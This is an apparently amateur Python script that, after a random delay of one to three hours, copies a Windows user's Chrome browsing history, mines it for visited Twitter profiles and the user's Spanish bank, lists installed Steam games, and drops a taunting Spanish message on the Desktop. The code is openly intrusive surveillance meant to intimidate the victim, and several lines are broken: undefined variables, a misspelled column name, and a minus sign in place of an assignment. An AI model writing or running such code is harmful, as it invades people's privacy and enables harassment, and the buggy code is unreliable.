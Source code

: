 # Check_history_of_Google

import os
from pathlib import Path
from shutil import copyfile
from time import sleep
from random import randrange
import sqlite3
import re
import glob

HACKER_FILE_NAME = "PARA TI.txt"


def get_user_path():
    return "{}/".format(Path.home())


def check_steam_games(hacker_file):
    steam_path = "C:\\Program Files (x86)\\Steam\\steamapps\\common\\*"
    games = []
    games_paths = glob.glob(steam_path)
    games_paths.sort(key=len, reverse=True)
    for game in games:
        games.append(game_path.split("\\")[-1])
    hacker_file.write("He visto que ultimamente has estado jugando a {}".format(",".join(games[:3])))


def delay_action():
    n_hours = randrange(1, 4)
    print("Durmiendo {} horas".format(n_hours))
    sleep(n_hours * 60 * 60)


def create_hacker_file(user_path):
    hacker_file = open(user_path + "Desktop/" + HACKER_FILE_NAME, "w")
    hacker_file.write("Bon dia\n")
    return hacker_file


def get_chrome_history(user_path):
    urls = None
    while not urls:
        try:
            history_path = user_path + "/AppData/Local/Google/Chrome/User Data/Default/History"
            temp_history - history_path + "temp"
            copyfile(history_path, temp_history)
            connection = sqlite3.connect(temp_history)
            cursor = connection.cursor()
            cursor.execute("SELECT title, last_visit_time, utl FROM urls ORDER BY last_visit_time DESC")
            urls = cursor.fetchall()
            connection.close()
            print(urls)
            return urls
        except sqlite3.OperationalError:
            print("Historial inaccesible, intentando en 3 segundos")
            sleep(3)


def check_twitter_profiles(hacker_file, chrome_history):
    profiles_visited = []
    for item in chrome_history:
        print(item[2])
        results = re.findall("https://twitter.com/([A-Za-z0-9]+)$", item[2])
        if results and results[0] not in ["notifications", "home"]:
            profiles_visited.append(results[0])
        hacker_file.write("He visto que has estado  husmeando en los perfiles de {}...\n".format(",".join(profiles_visited)))


def check_bank_account(hacker_file, chrome_history):
    his_bank = None
    banks = ["BBVA", "Santander", "Caixa Bank", "Bankia", "Sabadell", "Kutxabank", "Abanca", "Unicaja Banco", "Ibercaja"]
    for item in chrome_history:
        for b in banks:
            if b.lower() in item[0].lower():
                his_bank = b
                break
        if his_bank:
            break
    hacker_file.write("Ademas veo que guardas tu dinero aqui {}\n".format(his_bank))
    print("his_bank")


def main():
    # Wait 1-3 hours
    delay_action()
    # Calculate the field to Windows's user
    user_path = get_user_path()
    # Take the history of Chrome
    chrome_history = get_chrome_history(user_path)
    # Create a field in Desktop
    hacker_file = create_hacker_file(user_path)
    # Twitter accounts
    check_twitter_profiles(hacker_file, chrome_history)
    # Bank account
    check_bank_account(hacker_file, chrome_history)
    # Steam games
    check_steam_games(hacker_file)


if __name__ == "__main__":
    main()
